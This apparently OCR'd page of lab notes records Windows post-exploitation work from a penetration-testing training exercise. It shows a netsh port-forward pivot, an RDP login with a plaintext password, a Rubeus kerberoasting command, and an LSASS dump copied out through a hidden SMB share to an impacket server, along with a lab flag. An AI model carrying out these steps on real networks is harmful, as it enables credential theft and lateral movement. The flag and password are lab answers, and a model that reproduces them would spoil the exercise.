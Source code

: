 C:\Windows\system32\netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.71.186 connectport=3389 connectaddress=172.16.6.50

C:\Windows\system32\netsh.exe interface portproxy show v4tov4

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
10.129.8.5      8080        172.16.6.50     3389

xfreerdp /u:svc_sql /p:"lucky7" /v:$TARGET:8080

spn$_r0ast1ng_on_@n_0p3n_f1re

tpetty

c:\Rubeus.exe kerberoast /user:tpetty /nowrap outfile:type.hash

DUMP LSSAS
Test-NetConnection -ComputerName WEB-WIN01 -Port 5985

ComputerName     : WEB-WIN01
RemoteAddress    : 172.16.6.100
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 172.16.6.50
TcpTestSucceeded : True


PS> New-Item -ItemType Directory -Path "C:\Partage2"


    Directory: C:\


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        12/8/2023   3:03 PM                Partage2     

New-SmbShare -Name Partage2$ -Path 'C:\Partage2\' -FullAccess 'svc_sql'

Name     ScopeName Path       Description
----     --------- ----       -----------
Partage2$ *         C:\Partage2     

dir \\172.16.6.100\Partage2$

copy C:\Users\SVC_SQ~1.INL\AppData\Local\Temp\lsass.DMP \\172.16.6.100\Partage2$\

dir c:\Partage2
    Directory: C:\Partage2


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        12/8/2023  12:53 PM       46890501 lsass.DMP  


sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support share /home/htb-ac-786011/ -user test -password test

